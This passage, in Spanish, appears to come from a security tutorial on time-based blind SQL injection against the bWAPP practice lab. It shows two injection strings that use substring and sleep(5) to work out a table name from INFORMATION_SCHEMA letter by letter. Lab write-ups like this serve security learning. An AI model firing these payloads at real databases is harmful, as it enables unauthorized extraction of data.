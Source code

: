 

Ahora para encontrar los nombres de las tablas se realiza la siguiente inyección, en donde nos centraremos en encontrar la tabla ```users``` que se vió anteriormente:

```sql
' or 1=1 AND substring((SELECT table_name FROM INFORMATION_SCHEMA.TABLES WHERE table_type='base table' AND table_schema='bWAPP' LIMIT 3,1),1,1) = 'u' AND sleep(5)-- -
```

[![sqlinjectblindsleep11](/images/sqlinjectblindsleep11.png){:target="_blank"}](https://raw.githubusercontent.com/NPTG24/nptg24.github.io/master/images/sqlinjectblindsleep11.png)


```sql
' or 1=1 AND substring((SELECT table_name FROM INFORMATION_SCHEMA.TABLES WHERE table_type='base table' AND table_schema='bWAPP' LIMIT 3,1),2,1) = 's' AND sleep(5)-- -
```
